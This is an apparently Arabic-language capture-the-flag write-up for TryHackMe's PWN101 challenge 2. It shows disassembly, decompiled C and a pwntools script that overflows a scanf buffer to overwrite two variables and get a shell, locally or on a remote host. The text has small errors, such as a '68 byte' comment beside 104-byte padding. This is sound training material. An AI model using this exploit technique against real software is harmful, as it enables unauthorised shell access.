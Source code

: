 # PWN101 (TryHackMe)
## Challenge #2
## write-up : 0xNuLLByte
<br>
 <!DOCTYPE html>
<html dir="rtl" lang="ar">
<head>
<meta charset="utf-8">


كالعادة قبل البدء بعمليـة الـ (debugging) نشاهد سلوك البرنامج.
![](img/20220819005817.png)  

let's fill the buffer with AAAA... :)
![](img/20220819010021.png)

مافيه اي تغير حصل او اخطا ضهرت لنا! .
___
## ننتقل الى عملية الـ Debugging :
البرامج + الإضافات المستخدمة :
- [gdb](http://www.gdbtutorial.com/tutorial/what-gdb)
- [gdb-peda](https://github.com/longld/peda)
- [Ghidra](https://ghidra-sre.org/InstallationGuide.html)

____

>- نعرض الدوال:
>
> `gdb ./pwn101.pwn101`
> 
> `gdb-peda$ info functions`
> 
> <img src="img/20220819010232.png" width="500" height="500">
>
> - نلاحظ وجود :
>```asm
>0x0000000000000720  system@plt              ; system() : دلاله على وجود داله 
>0x0000000000000750  __isoc99_scanf@plt      ; دلاله على وجود داله scanf();
>                                             ; في حال لم يتم استخدامها بالشكل الصحيح لانها لا تهتم بطول المدخل ولاتتحق بسعته buffer overflow و من الممكن ان تسبب 
> 
> 
>
>
>0x000000000000088a  setup                  ;
>0x00000000000008eb  banner                 ;
>0x00000000000008fe  main                   ;
>```
>
> - نعرض الدالة : main
>
>`gdb-peda$ disassemble main`
>
> ![](img/20220819012719.png)  
>
>```asm
>0x00000000000008fe <+0>:	push   rbp
>0x00000000000008ff <+1>:	mov    rbp,rsp
>0x0000000000000902 <+4>:	sub    rsp,0x70
>0x0000000000000906 <+8>:	mov    eax,0x0
>0x000000000000090b <+13>:	call   0x88a <setup>
>0x0000000000000910 <+18>:	mov    eax,0x0
>0x0000000000000915 <+23>:	call   0x8eb <banner>
>0x000000000000091a <+28>:	mov    DWORD PTR [rbp-0x4],0xbadf00d    ; rbp-0x4 =  0xbadf00d  ; 4 byte
>0x0000000000000921 <+35>:	mov    DWORD PTR [rbp-0x8],0xfee1dead   ; rbp-0x8 =  0xfee1dead ; 4 byte
>0x0000000000000928 <+42>:	mov    edx,DWORD PTR [rbp-0x8]
>0x000000000000092b <+45>:	mov    eax,DWORD PTR [rbp-0x4]
>0x000000000000092e <+48>:	mov    esi,eax
>0x0000000000000930 <+50>:	lea    rdi,[rip+0x212]        # 0xb49
>0x0000000000000937 <+57>:	mov    eax,0x0
>0x000000000000093c <+62>:	call   0x730 <printf@plt>
>0x0000000000000941 <+67>:	lea    rax,[rbp-0x70]                   ; byte حجز مساحه حجمها 112
>0x0000000000000945 <+71>:	mov    rsi,rax
>0x0000000000000948 <+74>:	lea    rdi,[rip+0x217]        # 0xb66
>0x000000000000094f <+81>:	mov    eax,0x0
>0x0000000000000954 <+86>:	call   0x750 <__isoc99_scanf@plt>       ; scanf() استدعاء لدالة 
>0x0000000000000959 <+91>:	cmp    DWORD PTR [rbp-0x4],0xc0ff33     ; مقارنة; rbp-0x4 , 0xc0ff33
>0x0000000000000960 <+98>:	jne    0x992 <main+148>                 ; <main+148> في حال لم تتساوى اقفز الى 
>0x0000000000000962 <+100>:	cmp    DWORD PTR [rbp-0x8],0xc0d3       ; مقارنة; rbp-0x4 , 0xc0d3
>0x0000000000000969 <+107>:	jne    0x992 <main+148>                 ; <main+148> في حال لم تتساوى 
>
>                              ;  __في حال تساوى الشرط__  ;
>0x000000000000096b <+109>:	mov    edx,DWORD PTR [rbp-0x8]
>0x000000000000096e <+112>:	mov    eax,DWORD PTR [rbp-0x4]
>0x0000000000000971 <+115>:	mov    esi,eax
>0x0000000000000973 <+117>:	lea    rdi,[rip+0x1ef]        # 0xb69
>0x000000000000097a <+124>:	mov    eax,0x0
>0x000000000000097f <+129>:	call   0x730 <printf@plt>
>0x0000000000000984 <+134>:	lea    rdi,[rip+0x1f4]        # 0xb7f
>0x000000000000098b <+141>:	call   0x720 <system@plt>
>0x0000000000000990 <+146>:	jmp    0x9a8 <main+170>
>                              ;   __في حال لم يتساوى الشرط__ ;
>0x0000000000000992 <+148>:	lea    rdi,[rip+0x1ef]        # 0xb88
>0x0000000000000999 <+155>:	call   0x710 <puts@plt>
>0x000000000000099e <+160>:	mov    edi,0x539
>0x00000000000009a3 <+165>:	call   0x760 <exit@plt>
>0x00000000000009a8 <+170>:	leave  
>0x00000000000009a9 <+171>:	ret    
>```

## الاستنتاج :
>
>![](img/20220819014402.png) 
>
>```c
>void main(void)
>
>{
>  char buf[104];
>  int var_1;
>  int var_2;
>  
>  setup();
>  banner();
>  var_2 = 0xbadf00d;
>  var_1 = -0x11e2153;
>  
>  printf("I need %x to %x\nAm I right? ",0xbadf00d,0xfee1dead);
>  scanf("%s", buf);
>  if ((var_2 == 0xc0ff33) && (var_1 == 0xc0d3)) {
>    printf("Yes, I need %x to %x\n",0xc0ff33,0xc0d3);
>    system("/bin/sh");
>    return;
>  }
>  puts("I\'m feeling dead, coz you said I need bad food :(");
>                    /* WARNING: Subroutine does not return */
>  exit(1337);
>}
>```

## الاستغلال :
> 
> حاليا الهدف الكتابه فوق المتغيرين واعطائهم القيمه  var_2 == 0xc0ff33, var_1 == 0xc0d3 ليتحقق الشرط ونحصل على : `system("/bin/sh")`
> 
> رسمت رسمه توضح الفكره داخل المكدس
> 
> ![](img/20220819021945.png)  

## نكتب سكربت للاستغلال :
>```python
>from pwn import *
>
>#        68 byte           4 byte         4 byte
>PAYLOAD = b"A" * 104 + p32(0xc0d3) + p32(0xc0ff33)
>
>def exploit_r(host_port: list):
>    HOST, PORT = host_port[0], host_port[1]
>    c = remote(HOST, int(PORT))
>    c.recv()
>    c.sendline(PAYLOAD)
>    c.interactive()
>
>def exploit_l(file: str):
>    p = process(file)
>    p.recv()
>    p.sendline(PAYLOAD)
>    p.interactive()
>
>def main():
>    import sys
>    try:
>        content: string = sys.argv[2]
>        get_flag: bool  = True if "-flag" in sys.argv else False
>
>        if sys.argv[1] == "-r": exploit_r(str(content).split(":"))
>        if sys.argv[1] == "-l": exploit_l(content)
>    except:
>        print("python exploit.py -l file.out        : for locally  exploit")
>        print("python exploit.py -r HOST:PORT       : for remotely exploit!")
>
>if __name__ == "__main__":
>    main()
>
>```
>نجربه محلياََ :
>
> ![](img/20220819022456.png)  

## example area ( امثلـــة ):

